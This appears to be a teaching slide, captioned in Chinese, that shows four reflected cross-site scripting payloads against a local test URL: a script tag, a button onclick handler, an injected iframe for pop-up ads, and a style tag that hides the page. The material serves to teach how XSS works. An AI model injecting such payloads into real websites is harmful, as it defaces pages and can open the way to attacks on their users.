

主动触发
	localhost:3000/test?xss=<script>alert(1)</script>

被动触发
	localhost:3000/test?xss=<button onclick='alert(1) '>点我</button>

弹窗广告
	localhost:3000/test?xss=<iframe src='https://www.baidu.com'/>

影响原有系统的正常使用
	localhost:3000/test?xss=<style>body{display:none}</style>